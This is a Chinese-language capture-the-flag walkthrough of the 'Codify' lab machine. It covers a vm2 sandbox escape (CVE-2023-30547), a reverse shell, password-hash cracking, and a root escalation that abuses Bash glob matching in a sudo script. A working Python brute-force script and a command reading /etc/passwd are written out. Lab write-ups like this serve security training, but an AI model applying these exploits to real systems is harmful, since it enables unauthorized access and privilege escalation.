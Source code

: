 Codify
===
尋找user.txt
---
      1.使用nmap進行掃描

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0c00ac91-6a05-4b20-9a49-cd2f7a803930)

      2.使用80 port為進入點，瀏覽網頁

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/71fa5ff9-33cd-4343-baf9-9262c677d5ac)

      3.使用 vm2 庫在沙箱環境中運行 Javascript 程式碼。在查找 vm2 庫中的當前漏洞後，發現了CVE-2023-30547，它允許攻擊者繞過沙箱限制並在主機環境中執行任意程式碼。

   [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

      4.在runtime環境下執行POC指令測試使用cat /etc/passwd

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/13170605-5477-4863-8cbc-ff48a9a65ee7)

      5.使用reverse shell

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0ed4a6d2-aa3c-45e2-af79-f4b7d588acf9)

      6.進入/var/www/contact目錄，檢視tickets.db拿到joshua密碼HASH

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bfb6ea03-f494-4d0b-b431-dc358a937d1d)

      7.破解密碼HASH後，登入joshua

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/87abbb76-f893-427a-a1cc-83caa6844a99)

      8.拿到user.txt

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a17fbfe0-ddc3-46cd-9708-f6ee904dfbb5)

尋找root.txt
---

      9.執行sudo -l 確認可執行指令

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/35fecdc5-8641-422f-aeed-82fb65c52c04)

      10.分析mysql-backup.sh內容

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcc7ea94-9229-405b-a45d-912a4fef8cf9)

      11.腳本的這一部分將使用者提供的密碼 (USER_PASS) 與實際資料庫密碼 (DB_PASS) 進行比較。這裡的漏洞是由於 Bash 中 [[ ]] 內部使用了 == ，它執行模式匹配而不是直接字串比較。
      這意味著使用者輸入 (USER_PASS) 被視為一種模式，如果它包含像 * 或 ? 這樣的全域字符，它可能會匹配意外的字串。
      例如，如果實際密碼（DB_PASS）是password123，並且使用者輸入*作為其密碼（USER_PASS），則模式匹配將成功，因為*匹配任何字串，從而導致未經授權的存取。
**這意味著我們可以暴力破解 DB_PASS 中的每個字元**

      12.使用腳本進行密碼破解
```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
   ```   
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/532a4da9-484b-4d50-b4d2-27a156a56160)

       13.登入root，拿到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/2eb65333-af7c-4bd1-b6b7-79c563f6a584)
